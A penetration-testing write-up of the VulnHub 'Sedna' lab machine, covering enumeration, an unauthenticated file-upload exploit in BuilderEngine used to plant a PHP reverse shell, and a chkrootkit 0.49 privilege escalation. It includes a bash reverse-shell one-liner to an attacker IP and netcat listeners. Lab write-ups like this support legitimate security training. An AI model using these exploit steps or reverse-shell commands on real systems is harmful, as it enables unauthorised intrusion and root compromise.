 ```yaml
---
layout: post
title: PenLog - &quot;Sedna&quot; by VulnHub
categories: [VulnHub, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [VulnHub](https://www.vulnhub.com/)\
**Difficulty:** Medium\
**Link:** [HACKFEST2016: SEDNA](https://www.vulnhub.com/entry/hackfest2016-sedna,181/)

## Enumeration

Run `netdiscover` to find the IP address of the VM:

```bash
$ netdiscover -i vmnet1
192.168.42.130  00:0c:29:9a:47:01      1      42  VMware, Inc.
```

Run full `nmap` port scan on the discovered target IP:
```bash
$ nmap -vv -Pn -sT -T4 -p- -n 192.168.42.130
```

This results in:

![nmap2](/images/posts/penlog_sedna_by_vulnhub/nmap2.png)

Run `DirBuster` against the target's open http port 80 using the _/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt_ wordlist and
options _Be Recursive_ switched off, and _File extension_ set to _html, php, txt_.

Note **/licence.txt** in the result; navigate to this in the browser and notice the line:

    Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.

Continuing through the `DirBuster` results, note **/finder.html**, which, when navigated to in the browser,
has the title: **elFinder 2.0**.

Searching Google, there is a **BuilderEngine** project on GitHub at [tripflex/builder-engine]() with the
description: _"Open source CMS HTML 5 website builder."_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit enginebuilder
...
```

![searchsploit](/images/posts/penlog_sedna_by_vulnhub/searchsploit_enginebuilder.png)

Download the non-Metasploit PoC with EDB ID **40390**:

```bash
$ searchsploit -m 40390
```

### 40390 Description

40390 reports EngineBuilder v3.5.0 as having a Remote Code Execution vulnerability; reading the PoC, it describes the ability to perform Arbitrary File Upload via unauthenticated, unrestricted access to a bundled jQuery File Upload plugin _/themes/dashboard/assets/plugins/jquery-file-upload_.

With this file upload capability, upload a reverse PHP shell--the website is serving PHP--to establish a low-privilege _user_ shell.

## User Shell

Copy 40390, changing the extension from _.php_ to _.html_:

```bash
$ cp 40390.{php,html}
```

Update the PoC's action string to instead include the target IP address:

```bash
$ diff 40390.html 40390.php
22c22
< <form method="post" action="http://192.168.42.130/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
---
> <form method="post" action="http://localhost/themes/dashboard/assets/plugins/jquery-file-upload/server/php/" enctype="multipart/form-data">
27c27
< </html>
---
> </html>
\ No newline at end of file
```

Copy _/usr/share/webshells/php/php-reverse-shell.php_ from Kali's bundled webshells and update the connect back IP address/port to be the attacking IP address/port:

![php-webshell](/images/posts/penlog_sedna_by_vulnhub/php_webshell.png)

Serve the _html_ version of 40390 locally and upload the modified _php-reverse-shell.php_:

![40390-upload](/images/posts/penlog_sedna_by_vulnhub/40390_upload.png)

As noted in the documentation, 40390 advises that the uploaded shell will be accessible via _/files_:

![files-list](/images/posts/penlog_sedna_by_vulnhub/files_list.png)

Start an `nc` lister on the port that was added to the modified _php-reverse-shell.php_:

```bash
$ nc -vnlp 4444
```

Click the _php-reverse-shell.php_ link in the browser and establish a reverse shell connection:

![user-shell](/images/posts/penlog_sedna_by_vulnhub/user_shell.png)
_(Note: "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_sedna_by_vulnhub/user_flag.png)

Lastly, upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

(After spending an hour looking at some other installed, vulnerable software, and attempting _Dirty Cow_ for this vulnerable _Linux Kernel v3.13.0-32_, I discovered a vector via `cron`.)

Upload and execute custom `cronmon.sh`:

```bash
$ cat cronmon.sh
#!/bin/bash

#IFS=$'\n'

old_process=$(ps -eo command)  # sort by command (-o)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process")
    sleep .2
    old_process=$new_process
done
```

After a while, notice `chkrootkit` in the output, running as **root**:

![chkrootkit-cron-root](/images/posts/penlog_sedna_by_vulnhub/chkrootkit_cron_root.png)

Notice path _/etc/chkrootkit_ on target (non-standard) and version string in _/etc/chkrootkit/README_:

```bash
$ cat /etc/chkrootkit/README
...
 09/30/2009 - Version 0.49  new tests: Mac OS X OSX.RSPlug.A.  Enhanced
                            tests: suspicious sniffer logs, suspicious
                            PHP files, shell history file anomalies.
                            Bug fixes in chkdirs.c, chkproc.c and
                            chkutmp.c.
```

Search for a local privilege escalation with `searchsploit` and download the non-Metasploit PoC **33899**:

![33899-chkrootkit](/images/posts/penlog_sedna_by_vulnhub/33899_chkrootkit.png)
_(Note: "ss" in the above is a bash alias for `searchsploit`.)_

### 33899 Description

33899 reports chkrootkit v0.49 as having a vulnerable function that will execute files specified in a variable due to unquoted variable assignment. The PoC goes on to describe _"Steps to reproduce"_:
- Put an executable file named 'update' in /tmp
- Run chkrootkit (as uid 0)

## Root Shell

Follow the instructions and put the file with a bash reverse shell to attacking machine:

```bash
$ echo "bash -i >& /dev/tcp/192.168.42.129/4445 0>&1" > /tmp/update
$ chmod +x /tmp/update
```

Start `nc` listener on the attacking machine, specifying expected reverse shell port (4445 in this case):

```bash
$ nc -vnlp 4445
```

Wait for `cron` to execute `chkrootkit` as root; reading _/etc/crontab_, the root _/etc/cron.hourly_ will run every **17 min**:

![root-cron-hourly](/images/posts/penlog_sedna_by_vulnhub/root_cron_hourly.png)

After _/tmp/update_ is executed as _root_ via the `cron` call to `chkrootkit`, get the root _flag.txt_ via the established root shell:

![root-shell](/images/posts/penlog_sedna_by_vulnhub/root_shell.png)
